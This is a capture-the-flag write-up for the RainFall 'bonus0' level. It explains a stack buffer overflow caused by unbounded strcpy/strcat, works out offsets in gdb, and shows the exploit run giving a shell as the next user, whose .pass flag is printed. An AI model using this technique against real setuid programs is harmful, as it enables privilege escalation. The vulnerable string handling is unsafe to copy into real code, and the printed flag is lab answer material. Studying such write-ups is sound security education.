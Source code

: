 # bonus0

## Header

```bash
ssh bonus0@192.168.64.9 -p 4242
...
  GCC stack protector support:            Enabled
  Strict user copy checks:                Disabled
  Restrict /dev/mem access:               Enabled
  Restrict /dev/kmem access:              Enabled
  grsecurity / PaX: No GRKERNSEC
  Kernel Heap Hardening: No KERNHEAP
 System-wide ASLR (kernel.randomize_va_space): Off (Setting: 0)
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/bonus0/bonus0
```

<hr>

## Solution

From the following lines we can understand that the program is vulnerable to `buffer overflow`:
``` c
void p(char *dst, const char *message) {
   ...
   strncpy(dst, tmp_buf, 20);
}

void pp(char *buffer0) {
    char buf1[20];
    char buf2[20];

    p(buf2, " - ");
    p(buf1, " - ");

    strcpy(str, buf2);

    str += ft_strlen(str);
    *str = ' ';
    *(str + 1) = '\0';

    strcat(str, buf1);
}
```

From this line in the [source.s](./source.s) we can understand that the stack was aligned to 16 bytes.
```asm
  and    $0xfffffff0,%esp
```

`gdb` helps us to find out that stack was increased on `8 bytes` during alignment:
```bash
(gdb) b *0x080485a7
Breakpoint 1 at 0x80485a7
(gdb) r 
Starting program: /home/user/bonus0/bonus0 
Breakpoint 1, 0x080485a7 in main ()
(gdb) x $esp
0xbffff708:     0x00000000
(gdb) ni
0x080485aa in main ()
(gdb) x $esp
0xbffff700:     0x080485d0
(gdb) ! $((0xbffff708 - 0xbffff700))
bash: 8: command not found
```

Simple calculations:
`42 bytes` to fill array and `8 bytes` of padding + `4 bytes` to overwrite address = `54 bytes`. <br>
`20 bytes` of non-terminated `buf2` following `20 bytes` of non-terminated `buf1` + `1 space` + `20 bytes` of non-terminated `buf1` again gives us `61 bytes` meaning the attack is feasible.

Here's the scheme of the filling:
```text
|          buffer, 42 bytes         | padding, 8 bytes | addr, 4 bytes  |  junk, 7 bytes  |
| b2, 20 | b1, 20 | 1 space | b1[0] |   b1[1] - b1[8]  | b1[9] - b1[12] | b1[13] - b1[19] | 
```

You should definitely check [payload.py](./payload.py) file!

Now, let's exploit:
```
bonus0@RainFall:~$ nano /tmp/payload.py
bonus0@RainFall:~$ python /tmp/payload.py > /tmp/payload
bonus0@RainFall:~$ cat /tmp/payload - | ./bonus0 
 - 
 - 
XXXXXXXXXXXXXXXXXXXX011111111����3344445��� 011111111����3344445���
whoami
bonus1
cd ../bonus1
ls -la
total 17
dr-xr-x---+ 1 bonus1 bonus1   80 Mar  6  2016 .
dr-x--x--x  1 root   root    340 Sep 23  2015 ..
-rw-r--r--  1 bonus1 bonus1  220 Apr  3  2012 .bash_logout
-rw-r--r--  1 bonus1 bonus1 3530 Sep 23  2015 .bashrc
-rw-r--r--+ 1 bonus1 bonus1   65 Sep 23  2015 .pass
-rw-r--r--  1 bonus1 bonus1  675 Apr  3  2012 .profile
-rwsr-s---+ 1 bonus2 users  5043 Mar  6  2016 bonus1
cat .pass
cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9
```

## References
